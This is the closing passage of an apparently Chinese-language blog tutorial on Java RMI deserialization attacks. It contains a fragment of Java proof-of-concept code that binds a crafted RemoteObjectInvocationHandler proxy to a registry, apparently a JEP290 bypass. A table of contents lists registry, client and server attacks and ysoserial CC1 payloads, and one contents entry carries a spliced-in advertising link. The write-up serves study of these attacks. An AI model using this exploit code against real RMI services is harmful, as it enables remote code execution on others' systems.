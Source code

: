 ```
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
        Registry proxy = (Registry) Proxy.newProxyInstance(Client.class.getClassLoader(), new Class[] {
                Registry.class
        }, obj);
        reg.bind("Hello",proxy);
    }
}

```

复现效果如下：


![image-20241125212823569](https://images.cnblogs.com/cnblogs_com/erosion2020/2432063/o_241125134832_rmi21.png)


## 总结


我是看了好多师傅的分析文章才对RMI有了一定的了解，这篇博客就是记录一下对应的内容，然后尽量把攻击复现写的详细一些，这样的话比较适合小白入手，有些师傅可能默认读者有这个基础，所以很多时候代码就一笔带过了，hhhhhh\~


强烈推荐：[T师傅的先知社区博客](https://github.com)


  * [RMI概述](#rmi%E6%A6%82%E8%BF%B0)
* [RMI基本设计](#rmi%E5%9F%BA%E6%9C%AC%E8%AE%BE%E8%AE%A1)
* [案例讲解](#%E6%A1%88%E4%BE%8B%E8%AE%B2%E8%A7%A3)
* [Remote接口](#remote%E6%8E%A5%E5%8F%A3)
* [Remote接口实现类](#remote%E6%8E%A5%E5%8F%A3%E5%AE%9E%E7%8E%B0%E7%B1%BB)
* [RMI服务器端](#rmi%E6%9C%8D%E5%8A%A1%E5%99%A8%E7%AB%AF)
* [RMI客户端配置](#rmi%E5%AE%A2%E6%88%B7%E7%AB%AF%E9%85%8D%E7%BD%AE)
* [攻击实验场景](#%E6%94%BB%E5%87%BB%E5%AE%9E%E9%AA%8C%E5%9C%BA%E6%99%AF)
* [实验目录](#%E5%AE%9E%E9%AA%8C%E7%9B%AE%E5%BD%95)
* [service.rmi](#servicermi)
* [service.RemoteClass](#serviceremoteclass)
* [registry.RegistryClass](#registryregistryclass)
* [client.Client](#clientclient):[蓝猫机场加速器](https://dahelaoshi.com)
* [攻击注册中心](#%E6%94%BB%E5%87%BB%E6%B3%A8%E5%86%8C%E4%B8%AD%E5%BF%83)
* [基本方法](#%E5%9F%BA%E6%9C%AC%E6%96%B9%E6%B3%95)
* [POC1 \- 基于bind/rebind](#poc1---%E5%9F%BA%E4%BA%8Ebindrebind)
* [POC2 \- 基于unbind/looup](#poc2---%E5%9F%BA%E4%BA%8Eunbindlooup)
* [攻击客户端](#%E6%94%BB%E5%87%BB%E5%AE%A2%E6%88%B7%E7%AB%AF)
* [注册中心攻击客户端](#%E6%B3%A8%E5%86%8C%E4%B8%AD%E5%BF%83%E6%94%BB%E5%87%BB%E5%AE%A2%E6%88%B7%E7%AB%AF)
* [ysoserial cc1攻击](#ysoserial-cc1%E6%94%BB%E5%87%BB)
* [服务端攻击客户端](#%E6%9C%8D%E5%8A%A1%E7%AB%AF%E6%94%BB%E5%87%BB%E5%AE%A2%E6%88%B7%E7%AB%AF)
* [服务端cc1攻击](#%E6%9C%8D%E5%8A%A1%E7%AB%AFcc1%E6%94%BB%E5%87%BB)
* [攻击服务端](#%E6%94%BB%E5%87%BB%E6%9C%8D%E5%8A%A1%E7%AB%AF)
* [基于Object参数反序列化攻击](#%E5%9F%BA%E4%BA%8Eobject%E5%8F%82%E6%95%B0%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%94%BB%E5%87%BB)
* [JEP290介绍](#jep290%E4%BB%8B%E7%BB%8D)
* [bypass JEP290](#bypass-jep290)
* [总结](#%E6%80%BB%E7%BB%93)
